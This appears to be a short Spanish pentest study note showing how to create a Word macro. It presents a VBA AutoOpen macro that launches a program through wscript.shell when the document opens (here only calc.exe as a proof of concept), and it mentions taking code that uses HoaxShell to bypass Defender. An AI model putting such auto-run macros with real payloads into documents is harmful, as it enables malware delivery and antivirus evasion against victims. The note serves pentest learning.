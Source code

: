 ```yaml
---
tags: [pentest]
created: 2024-12-21

---
```

----
- tags: #macros #word #excel #microsoft #office #troyano #windows #powerpoint #rce 
---

> En un documento Word vamos a **Vista**, después a **Macros** **Ver Macros**.

![[Pasted image 20240204183006.png|800]]

> Le pondremos de nombre **AutoExec**, **seleccionaremos el documento actual** y haremos clic en **Crear**

![[Pasted image 20240204183345.png]]

> Ponemos nuestro código sacado de esta página donde usan HoaxShell para bypassear Defender (https://infayer.com/archivos/1917) y luego crean una macro en Word con ello.

```
Sub AutoOpen()

    Dim Shell As Object
    Set Shell = CreateObject("wscript.shell")
    Shell.Run "calc.exe"

End Sub
```


![[Pasted image 20240204183538.png|800]]







